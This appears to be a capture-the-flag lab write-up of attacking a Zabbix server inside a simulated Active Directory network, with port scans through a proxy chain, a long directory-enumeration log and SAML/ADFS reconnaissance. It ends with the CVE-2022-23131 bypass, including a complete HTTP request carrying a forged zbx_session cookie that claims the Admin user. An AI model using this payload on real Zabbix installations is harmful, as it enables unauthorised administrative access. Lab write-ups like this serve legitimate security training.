We can start by enumerating the machine and checking for open ports on the TCP protocol but nothing comes out so i start to poke manually and seems like only port 443 is open?

```
*Evil-WinRM* PS C:\temp> port-scan-tcp 192.168.210.13 443
192.168.210.13,tcp,443,Open
```

I also tried other ports but they weren't open:

```
*Evil-WinRM* PS C:\temp> port-scan-tcp 192.168.210.13 21
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
192.168.210.13,tcp,21,Filtered
*Evil-WinRM* PS C:\temp> port-scan-tcp 192.168.210.13 22
192.168.210.13,tcp,22,Filtered
*Evil-WinRM* PS C:\temp> port-scan-tcp 192.168.210.13 80
192.168.210.13,tcp,80,Filtered
*Evil-WinRM* PS C:\temp> port-scan-tcp 192.168.210.13 443
192.168.210.13,tcp,443,Open
*Evil-WinRM* PS C:\temp> port-scan-tcp 192.168.210.13 445
192.168.210.13,tcp,445,Filtered
*Evil-WinRM* PS C:\temp> port-scan-tcp 192.168.210.13 8080
192.168.210.13,tcp,8080,Filtered
```

We can move to Zabbix!

* * *

## Checking Zabbix:

Surfing to the HTTPs site of zabbix we can see a login page were we don't have any momentaty access to it:  


But under the login form we can see that we can login via SAML token, and clicking we can see it points to a ADFS server:



Now we need to understand exactly which server is so we know to point it to the right DC! We know it's in the "ZSM.local" realm which should be the DC **ZPH-SVRDC01** since it's on that REALM but we should be able to get that by trying to ping it from .52 host which had dns cache pointing to this machine. Apparently this is another machine we totally lost from our initial enumeration.

```
*Evil-WinRM* PS C:\temp> ping adfs.zsm.local
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK

Pinging adfs.zsm.local [192.168.210.14] with 32 bytes of data:
Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 192.168.210.14:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
*Evil-WinRM* PS C:\temp>
```

Adding the IP to our hosts file we can see a login but unfortunately we need a credential to login:



Next I deciced to run a web directory search over zabbix and found out some folders might contain usefull informations:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains dirsearch -u "https://192.168.210.13/"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                       
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/ZEPHYR/reports/https_192.168.210.13/__23-09-12_12-40-53.txt

Target: https://192.168.210.13/

[12:40:53] Starting:                                                                                                                                                                                                                                         
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443  ...  OK

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.[                    ]  0%     25/11460        27/s       job:1/1  errors:0 ...  OK                                                                                                                                                        
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
[12:40:58] 301 -  178B  - /js  ->  https://192.168.210.13/js/               
[                    ]  0%     62/11460        36/s       job:1/1  errors:0 ...  OK                                                                  
[                    ]  0%     80/11460        36/s       job:1/1  errors:0 ...  OK                                                                  
[                    ]  0%     83/11460        36/s       job:1/1  errors:0 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443  ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
[####                ] 20%   2405/11460       147/s       job:1/1  errors:0 ...  OK                                                                  
[####                ] 21%   2430/11460       144/s       job:1/1  errors:0[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443  ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
[12:41:53] 301 -  178B  - /app  ->  https://192.168.210.13/app/             
[12:41:54] 403 -  564B  - /app/                                             
[12:41:54] 200 -  163B  - /app/.htaccess                                    
[12:41:55] 301 -  178B  - /assets  ->  https://192.168.210.13/assets/       
[12:41:55] 403 -  564B  - /assets/                                          
[12:41:55] 301 -  178B  - /audio  ->  https://192.168.210.13/audio/         
[########            ] 40%   4628/11460       151/s       job:1/1  errors:0 ...  OK                                         
[########            ] 40%   4653/11460       154/s       job:1/1  errors:0[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443  ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
[12:42:17] 200 -   48B  - /composer.json                                    
[12:42:17] 301 -  178B  - /conf  ->  https://192.168.210.13/conf/           
[12:42:17] 200 -    8KB - /composer.lock                                    
[12:42:17] 403 -  564B  - /conf/                                            
[12:42:28] 200 -   32KB - /favicon.ico                                      
[12:42:35] 200 -    2KB - /image.php                                        
[12:42:35] 403 -  564B  - /include/                                         
[12:42:35] 301 -  178B  - /include  ->  https://192.168.210.13/include/     
[12:42:35] 500 -    0B  - /include/config.inc.php
[############        ] 60%   6940/11460       108/s       job:1/1  errors:0[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443  ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
[12:42:54] 403 -  564B  - /js/                                              
[12:42:55] 403 -  564B  - /local/                                           
[12:42:55] 301 -  178B  - /local  ->  https://192.168.210.13/local/         
[12:42:57] 200 -    2KB - /maintenance.php                                  
[12:42:57] 200 -    2KB - /map.php                                          
[12:42:59] 403 -  564B  - /modules/                                         
[12:42:59] 301 -  178B  - /modules  ->  https://192.168.210.13/modules/     
[12:43:13] 200 -  974B  - /robots.txt                                       
[################    ] 80%   9266/11460        95/s       job:1/1  errors:0 ...  OK                                                                  
[################    ] 81%   9290/11460        96/s       job:1/1  errors:0[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.13:443  ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
[12:43:31] 200 -    2KB - /setup.php                                        
[12:43:40] 200 -    0B  - /vendor/autoload.php                              
[12:43:40] 403 -  564B  - /vendor/                                          
[12:43:40] 200 -    0B  - /vendor/composer/autoload_namespaces.php          
[12:43:40] 200 -    0B  - /vendor/composer/autoload_classmap.php            
[12:43:40] 200 -    0B  - /vendor/composer/autoload_psr4.php
[12:43:40] 200 -    0B  - /vendor/composer/ClassLoader.php                  
[12:43:40] 200 -    0B  - /vendor/composer/autoload_real.php                
[12:43:41] 200 -    1KB - /vendor/composer/LICENSE                          
[12:43:40] 200 -    0B  - /vendor/composer/autoload_static.php              
[12:43:41] 200 -    0B  - /vendor/composer/autoload_files.php               
[12:43:41] 200 -    7KB - /vendor/composer/installed.json                   
[12:43:48] 200 -    2KB - /zabbix.php?action=dashboard.view&dashboardid=1
```

Next i decided to do a step back and ZSM.local seems trusted by Painters.htb:


Which means that probably we should be able to use accounts from PAINTERS on ZSM.local and viceversa, depending on how the trust is setup is mono or bi-directional.

When I try to login into zabbix with ex riley@painters.htb I get the following error, I guess is because I need to add the FQDN to my hosts file:



So trying again:



Unfortunately it's not working because if we use the FQDN from monitor.zsm.local it checks the SSO and it doesn't let us login. SO googling around I found a fresh exploit that uses Zabbix as attack vector and more specifically when SSO is implemented which is our case:

https://pentest-tools.com/blog/exploit-zabbix-unsafe-session-storage-cve-2022-23131

But there is also this one:  https://packetstormsecurity.com/files/163657/Zabbix-5.x-SQL-Injection-Cross-Site-Scripting.html

But we still don't have a version running so going back to the first DC and knowing that we could find a Agent there we can see that version running is 5.4.2:



Usually agent version and server version need to match to a certain level so we can guess that the backend should be 5.4 aswell. Anyway the first link is telling to use this exploit: https://github.com/Mr-xn/cve-2022-23131/tree/main

Here I asked around and they confirmed me that the exploit is the right one to use but I need to make it work and checking the guide on packet storm, it telling to use the link for SSO:


Which points towards:



Now here I tried a lot and after a while I got it working by using IP and intercepting the request in Bupsuite.  


And getting the second zbx\_session:

```
GET /index.phpindex_sso.php HTTP/1.1
Host: 192.168.210.13
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.1146.82 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: zbx_session=eyJzZXNzaW9uaWQiOiIyOThjYjE4M2VlMzdkMGQ4ZGUwZGM0OWFmYjY4ZGY1OCIsInNpZ24iOiJZQTF6UkpPZ3JPNEZHNnhYOXBwK2U5SWtzYVlmVWZqaXRJZ1l4WWhDTVBaRWFWa1RvOERmUDhpaXFrY1dVVnl0SW1XU2swTHhZNWhkcFdCWmRsNlpxZz09In0%3D; zbx_session=eyJzYW1sX2RhdGEiOiB7InVzZXJuYW1lX2F0dHJpYnV0ZSI6ICJBZG1pbiJ9LCAic2Vzc2lvbmlkIjogIjI5OGNiMTgzZWUzN2QwZDhkZTBkYzQ5YWZiNjhkZjU4IiwgInNpZ24iOiAiWUExelJKT2dyTzRGRzZ4WDlwcCtlOUlrc2FZZlVmaml0SWdZeFloQ01QWkVhVmtUbzhEZlA4aWlxa2NXVVZ5dEltV1NrMEx4WTVoZHBXQlpkbDZacWc9PSJ9
```

Adding as a cookie:



And then login by clicking on Login via SAML we can bypass the login function:

